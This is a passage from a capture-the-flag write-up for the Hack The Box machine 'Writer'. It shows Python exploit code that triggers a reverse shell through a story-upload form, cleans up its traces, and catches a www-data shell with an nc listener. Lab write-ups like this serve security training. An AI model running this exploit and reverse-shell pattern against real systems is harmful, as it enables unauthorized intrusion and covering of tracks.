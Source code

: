 ```python
try:
    s.post(f'http://10.10.11.101/dashboard/stories/add', data={
        'author': 'Me',
        'title': 'New story',
        'tagline': 'Tag',
        'image_url': f'file:///var/www/writer.htb/writer/static/img/{filename}',
        'content': 'Nothing special'
    }, files={
        'image': ('', b'')
    }, timeout=2)
except requests.exceptions.ReadTimeout:
    pass
```

Notice the use of `timeout=2` and `requests.exceptions.ReadTimeout` because the server will send the reverse shell and will not send the HTTP response.

Finally, we can remove the malicious file from our local environment and delete the story created for the exploitation (for that, we need to take the story ID using a regular expression):

```python
os.remove(filename)

r = s.get('http://10.10.11.101/dashboard/stories')
story_id = int(re.findall(r'<td>\s*(\d+)\s*</td>', r.text)[-1])

if story_id > 8:
    s.post(f'http://10.10.11.101/dashboard/stories/delete/{story_id}')
```

So, executing the exploit indicating the local IP address and the local port to listen with `nc` will return a reverse shell on the machine:

```console
$ python3 foothold.py 10.10.17.44 4444
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.101.
Ncat: Connection from 10.10.11.101:53600.
bash: cannot set terminal process group (1055): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ 
```
